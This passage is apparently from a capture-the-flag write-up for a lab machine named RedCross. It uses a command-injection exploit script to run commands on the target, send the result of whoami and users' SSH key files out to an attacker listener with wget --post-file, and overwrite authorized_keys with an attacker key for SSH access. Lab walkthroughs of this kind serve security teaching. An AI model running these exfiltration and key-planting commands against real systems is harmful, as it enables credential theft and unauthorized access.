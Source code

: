 We can use the same technique to figure out what user we are logged in as and post it back to us with some command chaining:
```
root@kali: python 41162.py -c 'echo $(whoami) > /tmp/whoami; wget --post-file=/tmp/whoami http://10.10.14.12' -t thoseguys@redcross.htb -m redcross.htb
```

Back on our listener we get the result of what user we are running commands as:
```
root@kali: nc -nlvp 80
listening on [any] 80 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.10.113] 42054
POST / HTTP/1.1
User-Agent: Wget/1.18 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: 10.10.14.12
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 9

penelope
```


The results show us that we are the penelope user. From here we could grab the `user.txt`, but we want to take it a step further and get something more interactive.

We know from the nmap scans that we have ssh on the box. We continue to use this technique to see if there are any default ssh files in the users home directory that might help us connect:
```
root@kali: python 41162.py -c 'wget --post-file=/home/penelope/.ssh/id_rsa http://10.10.14.12' -t thoseguys@redcross.htb -m redcross.htb
root@kali: python 41162.py -c 'wget --post-file=/home/penelope/.ssh/penelope http://10.10.14.12' -t thoseguys@redcross.htb -m redcross.htb
root@kali: python 41162.py -c 'wget --post-file=/home/penelope/.ssh/authorized_keys http://10.10.14.12' -t thoseguys@redcross.htb -m redcross.htb
```

We get a hit for the authorized_keys file, but it does not contain anything that helps us SSH in, but we can create our own SSH keys and replace the `authorized_keys` file with our own public key. On the attackers machine generate some keys without a password using:
```
root@kali: ssh-keygen -f thoseguys
...
root@kali: chmod 600 thoseguys; chmod 600 thoseguys.pub
```

Now use python SimpleHTTPServer and the wget exploit command to upload our public key and overwrite the current `authorized_keys`

In one terminal window create a basic web server with `python -m SimpleHTTPServer 80` and then run the exploit:
```
root@kali: python 41162.py -c 'wget http://10.10.14.12/thoseguys.pub -O /home/penelope/.ssh/authorized_keys' -t thoseguys@redcross.htb -m redcross.htb
```
